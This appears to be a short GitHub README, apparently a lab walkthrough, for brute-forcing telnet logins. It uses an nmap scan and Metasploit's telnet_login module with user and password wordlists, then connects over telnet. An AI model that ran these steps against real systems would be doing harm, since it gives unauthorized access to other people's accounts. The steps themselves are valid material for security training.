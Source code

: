 # Port-23-telnet-Linux-telnet
1.nmap -sV (target)
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/dea1ef26-fa27-4457-b5ec-502aebd30d15)
2.msfconsole

3.msf 6 > search telnet

4.msf 6 > use auiliary/scanner/telnet/telnet_login

5.show options 

![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/f26392b9-0330-4b89-b132-75e07ca75113)
6.msf 6 > set RHOST <target>

7.msf 6 > set user_file <path user.txt>

8.msf 6 > set pass_file <path password.txt>

9.msf 6 > set stop_on_success true

![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/ebf68411-a4b7-4915-8029-b3334c4b66f9)
10. msf 6 > run
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/265bee3d-d499-4c4f-b132-d2b965dfe77a)
11.telnet <target>
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/9c38d3a8-1ef9-4560-a2d1-95fa6788b8e1)

Reference form : https://www.youtube.com/watch?v=lnl8qju0dLg&t=834s
